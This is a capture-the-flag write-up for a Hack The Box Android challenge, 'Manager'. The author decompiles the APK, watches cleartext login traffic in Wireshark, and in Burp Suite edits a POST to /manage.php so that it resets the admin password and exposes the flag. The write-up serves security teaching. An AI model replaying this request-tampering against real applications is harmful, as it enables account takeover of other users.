 # Manager
## jadx-gui
## Wireshark
## Android Studio
## Burpsuite
```bash

# CHALLENGE DESCRIPTION
# A client asked me to perform security assessment on this password management application. Can you help me?

➜  mkdir htb/Intro_to_Android_Exploitation/Manager ; cd htb/Intro_to_Android_Exploitation/Manager ; mv Manager.zip .
➜  Manager sha256sum Manager.zip | grep cb58a2a3018174cbd8d4e267655625be405440a026711ac38c8d561884cba988

cb58a2a3018174cbd8d4e267655625be405440a026711ac38c8d561884cba988  Manager.zip

➜  sudo apt install jadx

➜  jadx-gui &

Open file -> Manager.apk -> Open file
Go to: Source code -> com -> example.manager
Review code

Go to: Android Studio
Device -> Virtual Device Configuration -> Verify Configuration -> AVD Name
Change:

Pinned

To

Manager

Finish
Emulator settings are configured with burpsuite. Apparently it was required to configure in phone settings if directly using Android Studio without prior setup this way

➜  cd ~/Android/Sdk/tools 
➜  emulator -avd Manager

Drag and drop manager.apk from folder into 'Application menu' in emulator

➜  tools sudo wireshark &
➜  java -jar -Xmx4g /Downloads/BurpSuitePro/burpsuite_pro.jar &

Wireshark filter:

ip.addr == 178.128.43.97

Open manager.apk in emulator:

178.128.43.97:32478

Register user:

hey:hey

Change user password:

hey:heyhey

**Wireshark content can be skipped**
Right-click login.php -> Follow -> HTTP stream

uname:pword over cleartext

Right-click register.php -> Follow -> HTTP stream

uname:pword over cleartext

Right-click manage.php -> Follow -> HTTP stream

uname:pword over cleartext

In burpsuite:
Go to: HTTP history

Find:

POST /manage.php HTTP/1.1

Send to repeater
Change:

username=hey&password=hey

To

username=admin&password=admin

Response:

HTTP/1.1 200 OK

Password updated successfully.

Change:

POST /manage.php HTTP/1.1

To

POST /login.php HTTP/1.1

Response:

HTTP/1.1 200 OK

{"id":1,"username":"admin","password":"admin","role":"HTB{b4d_p@ss_m4n@g3m3nT_@pp}"}

```

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627000415.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627003243.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627004403.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627001414.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627001607.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627001525.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627002147.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627002244.png)

![image](https://0xc0rvu5.github.io/docs/assets/images/20220627002414.png)

#hacking
